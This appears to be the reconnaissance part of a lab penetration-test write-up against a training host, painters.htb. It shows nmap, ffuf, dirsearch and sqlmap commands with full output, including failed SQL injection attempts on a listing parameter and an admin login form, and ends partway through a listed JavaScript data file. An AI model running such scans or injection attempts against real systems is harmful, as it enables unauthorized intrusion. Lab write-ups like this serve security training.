






We can start again by running a NMAP scan over the specific ip to indentify all the open services on the machine and footprint their versions.

```
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ca:e7:7e:99:03:a9:78:e8:86:2e:e8:cc:2b:9f:08 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDNkEDFhLlCrVxFVUussDAyZOg2WYl16T0xOwiPNocFZQ7GotC2i7zX7SVDi0yM0FasyGLmOZTQX4Q31aLR3pEPUpiF7xocjRcKLmnk0vWFHReTpBWNvPevhF3cZAT2zCsdor+mPaSwi2K8OjFgZ0vNa0iw4iMfjP47YYtzVLEMPY+QQtCrs4EMJxiISTaN5K7Nnkn9uy9noWgiVWEsRR25dlkT+GCIRqQI9aYWoMhE2YOkou0S9336kQ4aoDDt4D3BJCgxAFKN8omlzwPthTQNnE84V3IZhf4p2NJJGb1SAy9EQCuVTf5lvgWNi3/nHoolrpwgL8obYdHYe9PorDid9bhZEzucGNc4hCR4BtEnUlTQkD3oCfbOGHt2+2ijtvRtpZTWsUpsLIVCehZrMHdE0p6uMwRvB+R/UERBA9gP/IzrrJ3IwhG7hlYoCBbLv/va0vmFn+4VX309KZ7YrEFR6AjA+2kpOW77KjnUZYom5f3DoaApDRbPp/0Ocq5e6Fs=
|   256 b1:7f:c0:06:9b:e7:08:b4:6a:ab:bd:c2:96:04:23:49 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC1WcVSw5FJ3Dvg9h2ArjP0btwvvlI+Ut+PrVLKTEYHmMY5N0MHJCzZ6ZWqKYVk8fZnOA/1TRI8o2W2hYHv673g=
|   256 0d:3b:89:bc:d5:a4:35:e0:dd:c4:22:14:7a:48:ad:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICP9i9WhL3TyfhV5Q5oLSDAY3nIcoVq51gEi5/RhWjPY
80/tcp  open  http     syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET
|_http-title: Did not follow redirect to https://painters.htb/home
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://painters.htb/home
| tls-nextprotoneg: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=painters.htb/countryName=GB/localityName=United Kingdom
| Subject Alternative Name: DNS:mail.painters.htb, IP Address:192.168.110.51
| Issuer: commonName=zsm-ZPH-SVRCA01-CA/domainComponent=zsm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-04-04T10:00:52
| Not valid after:  2032-04-01T10:00:52
| MD5:   dfbe:551b:7d3b:4ae2:471a:d540:4ddf:9de9
| SHA-1: eb4b:c1c6:6bf4:9d29:9d88:68a1:a001:cc03:c673:456a
| -----BEGIN CERTIFICATE-----
| MIIFmTCCBIGgAwIBAgITXwAAAAZjqHQs4Pr4BAAAAAAABjANBgkqhkiG9w0BAQsF
| ADBJMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN6c20x
| GzAZBgNVBAMTEnpzbS1aUEgtU1ZSQ0EwMS1DQTAeFw0yMjA0MDQxMDAwNTJaFw0z
| MjA0MDExMDAwNTJaMD0xCzAJBgNVBAYTAkdCMRcwFQYDVQQHEw5Vbml0ZWQgS2lu
| Z2RvbTEVMBMGA1UEAxMMcGFpbnRlcnMuaHRiMIIBIjANBgkqhkiG9w0BAQEFAAOC
| AQ8AMIIBCgKCAQEA0Ac0qHYCuMy0UzNRiioqaWXaJk+72/5fK72aNffJKq56BsJA
| Ynt4oowW2CQtNrX5zpTvqwg/HMYN06GtXXm0v8qqueWhuDcIgls/3Q65QiAgv+5n
| 86Dw7aWaG8bm7ZbxIwAnYhcV0w6KZvutT6c0ykEGX52+OcRcJ2oyKzkJ3ZTcVts3
| XGvVJK0AGpIbijUHgwp20aMKhJN2TywXgJ/XVGnCxvHGSEw2s8CjvlmLKvqLFtWi
| 6xHlRYU8ptdoox5918an6Yspkecc6CRPCx6vHLlbv5w0U+lpYPOAtbErndEopd9l
| xWn5I9ONh9poq/7jhFS+ZRDF1FFyIg3AnULedwIDAQABo4IChDCCAoAwIgYDVR0R
| BBswGYIRbWFpbC5wYWludGVycy5odGKHBMCobjMwHQYDVR0OBBYEFBMpF1H43YOo
| 7qYo3maQBvsu03mfMB8GA1UdIwQYMBaAFLovUkE0IGh6MO+9rH8wyYcOq4kXMIHS
| BgNVHR8EgcowgccwgcSggcGggb6GgbtsZGFwOi8vL0NOPXpzbS1aUEgtU1ZSQ0Ew
| MS1DQSxDTj1aUEgtU1ZSQ0EwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vy
| dmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz16c20sREM9bG9j
| YWw/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNS
| TERpc3RyaWJ1dGlvblBvaW50MIHCBggrBgEFBQcBAQSBtTCBsjCBrwYIKwYBBQUH
| MAKGgaJsZGFwOi8vL0NOPXpzbS1aUEgtU1ZSQ0EwMS1DQSxDTj1BSUEsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz16c20sREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNz
| PWNlcnRpZmljYXRpb25BdXRob3JpdHkwDgYDVR0PAQH/BAQDAgWgMD4GCSsGAQQB
| gjcVBwQxMC8GJysGAQQBgjcVCIbdogyC4tcXhaGFJ4KC6FuBrZUcgVOCi9IHgcme
| fwIBZAIBBTATBgNVHSUEDDAKBggrBgEFBQcDATAbBgkrBgEEAYI3FQoEDjAMMAoG
| CCsGAQUFBwMBMA0GCSqGSIb3DQEBCwUAA4IBAQBwf7hic89/g62lp5/Yoy2vtTeK
| ltutqhTHBtsMU4J4iEtoKY4QPq9zaDav5hCeu9EWq/o5UErGTdN75DA5eXVK0fJ9
| yMj3FaB9HNJykUrOLQ4uGDJxHzE9oUDsU29DzILXAUerFzco8I4kk+HaN2d22WcC
| zWTMkra4KG2TbMj9A8xrbg/YDCj3dbc1hsOSt2eyjJN5OJIaKwWzimIvOUoot3/p
| cTg2A1Cf4bOAo6NQIE56omfW1es3CHm5G+gX3gt7wQ0w5E4V3WV+o8Pp9Ehmib9M
| 7gIiuHJyNlaT4FfYZTdEBOlmuKsd7sU5uhHxQgTJClgiCwqpN12Q/26Y6H90
|_-----END CERTIFICATE-----
| tls-alpn: 
|   h2
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=9/8%OT=22%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=64FAE1DA%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10B%TI=Z%TS=A)
OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)
```

As we can see this seems like a Unix type of Webserver and we can also see that atleast 2 different VHOST are hosted one pointing to a posible Mai server and the other one to a painter.htb website. I will add those FQDN to make the search smoother.

But we can see as well that most likely the internal subnet should be **192.168.110.x/24** and it's worth to document for later when we find a way in into machine and we can pivot thru.


* * *

## HTTP/S:

I will start by checking for other VHOST on this webserver so we can footprint all the possible vulnerabilities available here:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://painters.htb/ -H "Host:FUZZ.painters.htb" -fl 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://painters.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.painters.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 1
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 711 req/sec :: Duration: [0:00:23] :: Errors: 0 ::

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─#
```

Nothing, that´s good to know that we have only to channel our efforts on one domain. Next I will do same to check for possible hidden folders on the web host:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://painters.htb"

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                      
                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_painters.htb/_23-09-08_11-21-01.txt

Target: http://painters.htb/

[11:21:01] Starting:                                                                                                                                                                         
[11:21:12] 200 -    3KB - /administration                                   
[11:21:14] 405 -    0B  - /applications                                     
[11:21:19] 200 -   15KB - /contact                                          
[11:21:19] 403 -  564B  - /controllers/                                     
[11:21:24] 200 -   23KB - /home                                             
[11:21:31] 405 -    0B  - /newsletter                                       
[11:21:40] 301 -  178B  - /static  ->  http://painters.htb/static/          
[11:21:41] 200 -   13KB - /testimonials                                     
[11:21:44] 301 -  178B  - /views  ->  http://painters.htb/views/            
                                                                             
Task Completed
```

We can see a **/administration** which could be a possible login page, anyway I will surf manually on the page and scout for possible missconfigurations.

Loggin into webpage we are in front of a Painters website:


We can see a possible list of usernames on the backend maybe?


Checking under /vacancies I can see that job listing might be vulnerable to SQL injections?


Next we have a contact form which could be tested for XSS and similar if SQLi doesn't work but from a inital test seems like no reflection is on place and most likely a email is sent to the mailserver in the backend:


Lastly we have the admin login page under **/administration**:


* * *

## Attacking the Website:

Now that we have a clear picture of the site we can start by checking on what we identified before and I will start by poking those vacancies listing for SQL injection via SQLMAP tool:

&nbsp;

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# sqlmap -u "http://painters.htb/listing?id=1" --batch --dbs --random-agent --risk 3
        ___
       __H__                                                                                                                                                                                 
 ___ ___[)]_____ ___ ___  {1.7.8#stable}                                                                                                                                                     
|_ -| . [.]     | .'| . |                                                                                                                                                                    
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:32:30 /2023-09-08/

[11:32:30] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux x86_64; de-DE; rv:1.8.1.6) Gecko/20070802 Firefox/2.0.0.6' from file '/usr/share/sqlmap/data/txt/user-agents.txt'                                                                                                                                                                               
[11:32:30] [INFO] testing connection to the target URL
[11:32:30] [INFO] testing if the target URL content is stable
[11:32:30] [INFO] target URL content is stable
[11:32:30] [INFO] testing if GET parameter 'id' is dynamic
[11:32:31] [INFO] GET parameter 'id' appears to be dynamic
[11:32:31] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[11:32:31] [INFO] testing for SQL injection on GET parameter 'id'
[11:32:31] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:32:32] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[11:32:33] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:32:34] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:32:34] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:32:35] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:32:35] [INFO] testing 'PostgreSQL OR error-based - WHERE or HAVING clause'
[11:32:37] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:32:37] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[11:32:38] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (XMLType)'
[11:32:39] [INFO] testing 'Generic inline queries'
[11:32:39] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:32:40] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:32:40] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[11:32:41] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:32:41] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[11:32:42] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:32:43] [INFO] testing 'PostgreSQL > 8.1 OR time-based blind'
[11:32:43] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[11:32:44] [INFO] testing 'Oracle AND time-based blind'
[11:32:45] [INFO] testing 'Oracle OR time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[11:32:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:32:46] [WARNING] GET parameter 'id' does not seem to be injectable
[11:32:46] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')

[*] ending @ 11:32:46 /2023-09-08/
```

Ok it's failing and the reason is that every job listing allows for pdf life upload?


This might mean that we have to execute a fileupload bypass?

I will momently even test directly the Login portal for possible SQL injections:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# sqlmap -u "https://painters.htb/administration" --batch --dbs --forms --random-agent --risk 3          
        ___
       __H__                                                                                                                                                                                 
 ___ ___[.]_____ ___ ___  {1.7.8#stable}                                                                                                                                                     
|_ -| . [']     | .'| . |                                                                                                                                                                    
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:40:59 /2023-09-08/

[11:40:59] [INFO] fetched random HTTP User-Agent header value 'Opera/9.80 (Windows NT 6.1; U; zh-cn) Presto/2.6.30 Version/10.61' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[11:40:59] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=gigtf72uds0...9ru9efd56h'). Do you want to use those [Y/n] Y
[11:41:00] [INFO] searching for forms
[1/1] Form:
POST https://painters.htb/administration/login
POST data: username=&pass=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&pass=] (Warning: blank fields detected): username=&pass=
do you want to fill blank fields with random values? [Y/n] Y
[11:41:00] [INFO] using '/root/.local/share/sqlmap/output/results-09082023_1141am.csv' as the CSV results file in multiple targets mode
[11:41:00] [INFO] testing if the target URL content is stable
[11:41:01] [INFO] target URL content is stable
[11:41:01] [INFO] testing if POST parameter 'username' is dynamic
[11:41:01] [WARNING] POST parameter 'username' does not appear to be dynamic
[11:41:02] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[11:41:02] [INFO] testing for SQL injection on POST parameter 'username'
[11:41:02] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:41:04] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[11:41:10] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:41:10] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:41:12] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:41:14] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:41:17] [INFO] testing 'PostgreSQL OR error-based - WHERE or HAVING clause'
[11:41:19] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:41:21] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[11:41:23] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (XMLType)'
[11:41:26] [INFO] testing 'Generic inline queries'
[11:41:26] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:41:28] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:41:30] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[11:41:31] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:41:34] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[11:41:36] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:41:38] [INFO] testing 'PostgreSQL > 8.1 OR time-based blind'
[11:41:40] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[11:41:43] [INFO] testing 'Oracle AND time-based blind'
[11:41:45] [INFO] testing 'Oracle OR time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[11:41:47] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:41:52] [WARNING] POST parameter 'username' does not seem to be injectable
[11:41:52] [INFO] testing if POST parameter 'pass' is dynamic
[11:41:52] [WARNING] POST parameter 'pass' does not appear to be dynamic
[11:41:53] [WARNING] heuristic (basic) test shows that POST parameter 'pass' might not be injectable
[11:41:53] [INFO] testing for SQL injection on POST parameter 'pass'
[11:41:53] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:41:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[11:42:00] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:42:01] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:42:03] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:42:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:42:07] [INFO] testing 'PostgreSQL OR error-based - WHERE or HAVING clause'
[11:42:10] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:42:12] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[11:42:14] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (XMLType)'
[11:42:16] [INFO] testing 'Generic inline queries'
[11:42:17] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:42:18] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:42:20] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[11:42:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:42:24] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[11:42:26] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[11:42:29] [INFO] testing 'PostgreSQL > 8.1 OR time-based blind'
[11:42:31] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[11:42:33] [INFO] testing 'Oracle AND time-based blind'
[11:42:35] [INFO] testing 'Oracle OR time-based blind'
[11:42:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:42:42] [WARNING] POST parameter 'pass' does not seem to be injectable
[11:42:42] [ERROR] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment'), skipping to the next target
[11:42:42] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.local/share/sqlmap/output/results-09082023_1141am.csv'

[*] ending @ 11:42:42 /2023-09-08/
```

Ok none of the SQL Injections are working out I guess we need to check that PDF upload function.

Next I will check that PDF upload function and send a dummy pdf file and grab the request via Burp Proxy and it shows that a HTTP Post request is made to /applications:



I decided to make a step back and enumerate deeper all those folders and something more interesting come out:




Checking under **http://painters.htb/static/assets/js/db.js** we get a list of usernames but not sure still on how to use them so far:

```
(function($) {
  (function() {

    var db = {

      loadData: function(filter) {
        return $.grep(this.clients, function(client) {
          return (!filter.Name || client.Name.indexOf(filter.Name) > -1) &&
            (filter.Age === undefined || client.Age === filter.Age) &&
            (!filter.Address || client.Address.indexOf(filter.Address) > -1) &&
            (!filter.Country || client.Country === filter.Country) &&
            (filter.Married === undefined || client.Married === filter.Married);
        });
      },

      insertItem: function(insertingClient) {
        this.clients.push(insertingClient);
      },

      updateItem: function(updatingClient) {},

      deleteItem: function(deletingClient) {
        var clientIndex = $.inArray(deletingClient, this.clients);
        this.clients.splice(clientIndex, 1);
      }

    };

    window.db = db;


    db.countries = [{
        Name: "",
        Id: 0
      },
      {
        Name: "United States",
        Id: 1
      },
      {
        Name: "Canada",
        Id: 2
      },
      {
        Name: "United Kingdom",
        Id: 3
      },
      {
        Name: "France",
        Id: 4
      },
      {
        Name: "Brazil",
        Id: 5
      },
      {
        Name: "China",
        Id: 6
      },
      {
        Name: "Russia",
        Id: 7
      }
    ];

    db.clients = [{
        "Name": "Otto Clay",
        "Age": 61,
        "Country": 6,
        "Address": "Ap #897-1459 Quam Avenue",
        "Married": false
      },
      {
        "Name": "Connor Johnston",
        "Age": 73,
        "Country": 7,
        "Address": "Ap #370-4647 Dis Av.",
        "Married": false
      },
      {
        "Name": "Lacey Hess",
        "Age": 29,
        "Country": 7,
        "Address": "Ap #365-8835 Integer St.",
        "Married": false
      },
      {
        "Name": "Timothy Henson",
        "Age": 78,
        "Country": 1,
        "Address": "911-5143 Luctus Ave",
        "Married": false
      },
      {
        "Name": "Ramona Benton",
        "Age": 43,
        "Country": 5,
        "Address": "Ap #614-689 Vehicula Street",
        "Married": true
      },
      {
        "Name": "Ezra Tillman",
        "Age": 51,
        "Country": 1,
        "Address": "P.O. Box 738, 7583 Quisque St.",
        "Married": true
      },
      {
        "Name": "Dante Carter",
        "Age": 59,
        "Country": 1,
        "Address": "P.O. Box 976, 6316 Lorem, St.",
        "Married": false
      },
      {
        "Name": "Christopher Mcclure",
        "Age": 58,
        "Country": 1,
        "Address": "847-4303 Dictum Av.",
        "Married": true
      },
      {
        "Name": "Ruby Rocha",
        "Age": 62,
        "Country": 2,
        "Address": "5212 Sagittis Ave",
        "Married": false
      },
      {
        "Name": "Imelda Hardin",
